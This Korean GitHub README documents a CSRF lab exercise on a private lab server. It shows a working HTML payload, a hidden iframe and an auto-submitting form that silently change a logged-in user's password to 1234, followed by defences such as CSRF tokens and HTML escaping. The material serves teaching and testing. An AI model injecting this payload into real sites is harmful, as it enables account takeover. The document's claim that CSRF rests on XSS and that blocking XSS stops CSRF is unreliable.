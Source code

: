 # CSRF 모의해킹
CSRF(Cross-Site Request Forgery) 공격은 인증된 사용자의 권한을 사용하여 악의적인 요청을 보내는 공격입니다. 이번 모의해킹에서는 공격자가 악성 요청을 보내어 다른 사용자의 비밀번호를 임의로 수정하는 공격을 다루었습니다.

## 공격 실습

공격자는 다음과같은 HTML 코드를 게시글에 작성합니다.
```html
<iframe name="ifr" width=0 height=0></iframe>
<FORM target="ifr" id="chpw" METHOD="POST" action="http://192.168.219.180/login/changepw_do.php">
<INPUT type="hidden" name="pw" value="1234">
</FORM>
<script>document.getElementById("chpw").submit();</script>
패스워드 변경 1234
```
해당 코드를 살펴보면 HTML 의 iframe을 이용하여 width 와 height를 모두 0으로 설정하여 보이지 않도록하고 비밀번호를 1234로 변경하도록하는 POST 요청을 보냅니다.

**1. 사용자의 원래 비밀번호**

![csrf_userpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_userpw.png)

**2. 사용자가 CSRF 공격이포함된 게시글 클릭**

![csrf_click](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_click.png)

**3. 사용자의 비밀번호가 변경됨**

![csrf_changedpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_changedpw.png)

## 대응 방안
- CSRF 토큰 사용: 서버 측에서 발급한 CSRF 토큰을 포함하여 요청을 보내도록 클라이언트에게 요청합니다. 이 토큰은 세션에 저장되어 있는 정보를 이용하여 생성됩니다. 공격자가 이 토큰을 알지 못하면 CSRF 공격을 수행할 수 없습니다.

- XSS 공격 방지: CSRF 공격은 기본적으로 XSS 공격에 기반한 공격이기 때문에 XSS 공격을 방어하면 CSRF 공격을 방어 할 수 있습니다.

## 방어 실습
![csrf_b](https://github.com/MLTree2/HK/blob/master/webH/image/csrf/csrf_B.png)

XSS 방어에서 사용된 [HTML Escaping](https://github.com/MLTree2/HK/tree/master/webH/2.%20XSS#html-%EC%9D%B4%EC%8A%A4%EC%BC%80%EC%9D%B4%ED%94%84)을 통하여 CSRF공격도 방어함을 볼 수 있습니다.
